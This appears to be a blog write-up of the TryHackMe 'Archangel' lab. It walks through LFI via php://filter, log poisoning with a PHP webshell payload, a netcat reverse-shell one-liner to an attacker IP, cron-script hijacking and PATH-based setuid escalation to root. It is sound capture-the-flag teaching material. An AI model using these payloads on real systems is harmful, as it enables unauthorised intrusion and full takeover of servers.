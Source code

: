 ```yaml
---
title: Archangel - TryHackMe
date: 2024-10-14 00:04:00 +100
categories: [TryHackMe Writeups]
tags: [linux, LFI, log poisoning]
---
```


![Room Logo](/assets/archangel/archangel.jpeg)

### Introduction

The Archangel room is a Boot2Root challenge that focuses on web exploitation, privilege escalation, and local file inclusion (LFI) vulnerabilities. The goal is to start from basic enumeration, exploit vulnerabilities on the web server, and eventually escalate privileges to gain root access.

This writeup will walk through each step, from scanning and discovering weaknesses to using those vulnerabilities to get control of the system. If you're interested in learning about web-based attacks and privilege escalation, this room offers a great hands-on experience.

### Initial Enumeration

Starting out with the Initial Enumeration.

#### Port Scanning

We start by scanning the target machinesing the command `nmap -A <target-IP>` to find open ports and ervices. This will help us understand what services are running.

![nmap scan](/assets/archangel/nmap.png)
We can see that we have an ssh port open on port 22 and an http port open on port 80

#### Web Enumeration

Since http port 80 is open, we would enumerate the web server using `gobuster` to find any hidden directories.
After using `gobuster`, I didn't find any interesting directory, but if we look back at the first question in **Task 2**, it said we should find a different hostname. We can see an email address plastered on the front page of the web server.
![email](/assets/archangel/email.png)
Lets try giving the IP address the hostname **mafialive.thm**. We can do this by navigating to the `/etc/hosts` file
![etc/hosts](/assets/archangel/etc.png)

After navigating to the site, we can see that it is correct and we got our first flag
![flag1](/assets/archangel/flag1.png)

Since the third question in **Task 2** asked us to look for a page under development, I ran the command `gobuster dir -u http://mafialive.thm -w /usr/share/dirb/wordlists/common.txt` and got the following result
![robots](/assets/archangel/robots.png)

Seeing that there is a _robots.txt_ file, i navigated there and got the page

![test](../assets/archangel/test.png)

### Exploitation

#### Local File Inclusion

I navigated to the `test.php` directory and we are met with this

![lfi page](<../assets/archangel/lfi page.png>)
With this we can see that the site might be vulnerable to local file inclusion. Looking back at the hint we were giving to find flag 2, we were told that the **_Best way to exploit lfi is to look at the code_**.

I then used the `php://filter` wrapper which can be used to read php files as plain text instead of executing them. just add this `php://filter/convert.base64-encode/resource`. I was met with the following base64 encoding

![basee64e](../assets/archangel/base64en.png)

Then after decoding it, i was met with this

![base64d](../assets/archangel/base64d.png)

Since that worked, i tried using the same method on the `test.php` file and got this base64 encoded text

![testen](../assets/archangel/testen.png)

After decoding it, i got the second flag

![testde](../assets/archangel/testde.png)

#### Log Poisoning

Seeing as the server is vulnerable to lfi, i also tried tampering the URL to see if i can perform a directory traversal. It was successful and I was able to access the `/etc/passwd` file.

![etcpass](../assets/archangel/etcpass.png)

Since the last question in task 2 ask us to _Get a shell and find the user flag_ and the hint given was **Poison!!!**. So i tried using that same method to check if i can access the `access.log` file and it worked

![accpage](../assets/archangel/accpage.png)

We are now a step closer to getting our result. Lets test out the log poisoning by injecting a whoami code into the web server using the `curl` command

![whoami](../assets/archangel/whoami.png)

_NOTE: The phpexec file is not an existing file, it is a random file i inputed and the reson i did that is to trigger an entry in the web server's log files, which is essential for log poisoning. When you send a request to a non-existent page, the web server typically logs the request in its access or error logs. In this case, by sending the curl request with a PHP payload in the User-Agent header (or any other header), we are trying to inject the PHP code `(<?php system('whoami'); ?>)` into the log file. The log file would then contain this PHP code_

Lets check the result by using the `curl` command to print out the content of the `access.log` file

![prwhoami](../assets/archangel/prwhoami.png)

We can see that it worked and we are met with the result of the executed `whoami` command. With this, we can see that RCE(Remote Code Execution) is possible. So now, i am going to send an inalid request to the server using netcat. we are requesting the page `/<?php phpinfo(); ?>`

![invalid req](<../assets/archangel/invalid req.png>)

Navigating back to the webpage and accesing the access.log directory, we were able to see the following

![phpinfo](../assets/archangel/phpinfo.png)
It means we were able to execute the code and load the `PHPInfo` file. Uing the method we used above, lets try and get a reverse shell from the server.

We will use this payload to execute system commands
`/<?php system($_GET[‘cmd’]); ?>` and use an encoded url reverse shell `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP 4444 >/tmp/f`. I encoded it using the site [urlencoder](https://www.urlencoder.org/)

I then parsed it into the webserver and started a netcat listener to receive the shell

![reversesh](../assets/archangel/reverseshell.png)
![alt text](../assets/archangel/shell.png)

And we were successful in getting the shell

Then after navigating to the `/home` directory and seeing an archangel user we were able to list out the content of the directory and get the user flag

![usertxt](../assets/archangel/usertxt.png)

### Privilege Escalation

I then started checking all other files we had access to but i wasnt able to see anything worthwhile. I then checked the `etc/crontab` file and saw that there is an `helloworld.sh` file that is owned by the archangel user and is running every 1 minute

![crontabfile](../assets/archangel/crontabfile.png)

lets try editing the file and injecting a reverse shell payload to see if we can get a shell to the archangel user

![archreverse](../assets/archangel/archrev.png)

I then started a netcat listener to get the shell and it worked. We now have access to the archangel user

![archrevgot](../assets/archangel/archrevgot.png)

we can now check and get our user2 flag

![user2flag](<../assets/archangel/user2 flag.png>)

#### Root Privilege Escalation

Its now time to escalate our privilege to root. If we check the `/home/archangel/secret` well, we can see that there is a backup file with **setuid** bit set which basically allows the program to run with the permissions of the file's owner, rather than the user executing it.

After trying to view the content of the file i was met with some gibberish but we can see that something stood out

![backupcontent](../assets/archangel/backupcont.png)

so i tried executing the file but got an error

![backuperr](../assets/archangel/backuperr.png)

But since we know that the executable backup file is using `cp` command, we can manipulate bothe the **PATH** variable and the `cp` command.

I created a cp file in the users home directory first, then i added the command `/bin/bash` in the file. Then i made the file executable using the command `chmod +x cp`. I then used the command `export PATH=/home/archangel:$PATH`. We can now execute the backup file again

![rootflag](../assets/archangel/rootflag.png)

As we can see, it was succesful and we were able to get the root flag.

**USEFUL RESOURCE**

- [LFI TO RCE](https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-1/)
- [PRIV ESCALATION WITH PATH](https://medium.com/purplebox/linux-privilege-escalation-with-path-variable-suid-bit-6b9c492411de)
